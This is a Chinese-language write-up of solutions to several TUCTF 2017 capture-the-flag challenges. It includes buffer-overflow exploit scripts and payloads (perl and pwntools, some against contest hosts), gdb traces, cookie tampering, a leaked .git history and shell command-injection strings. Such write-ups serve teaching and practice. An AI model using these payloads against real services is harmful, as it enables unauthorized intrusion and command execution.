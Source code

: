 # TUCTF 2017


## vuln chat

第一個scanf %30s

可以控到第二個scanf的format string

然後第二個scanf蓋夠長就能直接蓋到main的return address

payload:

`perl -e 'print "A"x20,"%90s\n","A"x49,"\x6B\x85\x04\x08\n"'`

`TUCTF{574ck_5m45h1n6_l1k3_4_pr0}`


## vuln chat 2.0

直接蓋最後兩bytes

跳到print_flag

exp:

```
from pwn import *

r = remote('vulnchat2.tuctf.com', 4242)

r.sendline('aaa')
sleep(1)
r.send('a'*43 + "\x72\x86")

r.interactive()
```


## guestbook

直接read第6個，可以把一些dest渣渣和system給leak出來 (system在20~24)

然後直接change name去改dest，因為gets可以讀無限長

所以理論上可以直接蓋到return address

但要注意中間有東西會被蓋壞 (strcpy那邊)

跟一下可以發現

這邊應該是index被蓋掉了

蓋回0就行

```
   0x5655597d <main+443>:   call   0x56555550 <gets@plt>
   0x56555982 <main+448>:    add    esp,0x4
   0x56555985 <main+451>: mov    eax,DWORD PTR [ebp-0x34]
=> 0x56555988 <main+454>:  mov    eax,DWORD PTR [ebp+eax*4-0x2c]
   0x5655598c <main+458>:  lea    edx,[ebp-0x98]
   0x56555992 <main+464>:   push   edx
   0x56555993 <main+465>:    push   eax
   0x56555994 <main+466>: call   0x56555570 <strcpy@plt>
```

index的offset的話就是 0x98 - 0x34


除了這邊，還有一個地方會爛：

正常：

```
   0x5655598c <main+458>:       lea    edx,[ebp-0x98]
   0x56555992 <main+464>:       push   edx
   0x56555993 <main+465>:       push   eax
=> 0x56555994 <main+466>:       call   0x56555570 <strcpy@plt>
   0x56555999 <main+471>:       add    esp,0x8
   0x5655599c <main+474>:       jmp    0x565559b3 <main+497>
   0x5655599e <main+476>:       mov    BYTE PTR [ebp-0x9],0x0
   0x565559a2 <main+480>:       jmp    0x565559b3 <main+497>
Guessed arguments:
     arg[0]: 0x56558008 --> 0x61 ('a')      <===========  我一開輸入的第0個是a，現在要去change它
     arg[1]: 0xffffd540 --> 0xffff0078 --> 0x0
```

不正常：

```
   0x5656e98c <main+458>:       lea    edx,[ebp-0x98]
   0x5656e992 <main+464>:       push   edx
   0x5656e993 <main+465>:       push   eax
=> 0x5656e994 <main+466>:       call   0x5656e570 <strcpy@plt>
   0x5656e999 <main+471>:       add    esp,0x8
   0x5656e99c <main+474>:       jmp    0x5656e9b3 <main+497>
   0x5656e99e <main+476>:       mov    BYTE PTR [ebp-0x9],0x0
   0x5656e9a2 <main+480>:       jmp    0x5656e9b3 <main+497>
Guessed arguments:
     arg[0]: 0x0                           <============   這個炸惹
     arg[1]: 0xff9675b0 --> 0x0
```


改用 `r.sendline("\x00"*108 + p32(0xdeadbeef)*1 + p32(0) * 11 + p32(system_addr) + p32(sh) * 2)` 後：

```
Guessed arguments:
     arg[0]: 0xdeadbeef                    <============  108 ~ 112的位置
     arg[1]: 0xffbb7ad0 --> 0x0
```

最後用前面leak出來的渣渣塞回去，讓他不會炸就行惹

`r.sendline("\x00"*108 + p32(data1) * 1 + p32(0xdeadbeef) * 11 + p32(system_addr) + p32(sh) * 2)`


## The nerver ending crypto

英文+特殊符號的凱薩加密

共50回合


`TUCTF{wh0_w@s_her3_la5t_ye@r?!?}`


## High source

從source code可以找到密碼

view-source:http://highsource.tuctf.com/scripts/login.js

password: `I4m4M4st3rC0d3rH4x0rsB3w43`

`TUCTF{H1gh_S0urc3_3qu4ls_L0ng_F4ll} `


## Cookie Duty 

cookie: `not_admin: 1 -> 0`

`TUCTF{D0nt_Sk1p_C00k13_Duty}`


## Git Gud

dump /.git

`git reset 22f63ceab55efe05c5448676a3470b13b6545f74`

`git diff`

`TUCTF{D0nt_Us3_G1t_0n_Web_S3rv3r}`


## Cookie Harrelson

cookie中可以看到一串base64

decode後發現是cat index.txt

踹踹看送cat flag可以發現前面會加上註解

用\n cat flag就可以繞過 (要先base64，再塞進cookie)


## iframe and shame

payload:

`search=https://youtube.com/watch?v=qqqasda";cat flag|head -1; "`

`TUCTF{D0nt_Th1nk_H4x0r$_C4nt_3sc4p3_Y0ur_Pr0t3ct10ns}`

![img](https://github.com/w181496/CTF/blob/master/tuctf-2017/iframe.png)

## Funmail

直接strings或ida pro 找username, password

username = john galt
password = this-password-is-a-secret-to-everyone!

就能登入看flag


## Funmail2.0

直接gdb跑，隨便下個斷點，然後跳過去print_flag

`TUCTF{l0c4l_<_r3m073_3x3cu710n}`

## I'm playing

登入discord即可看到flag

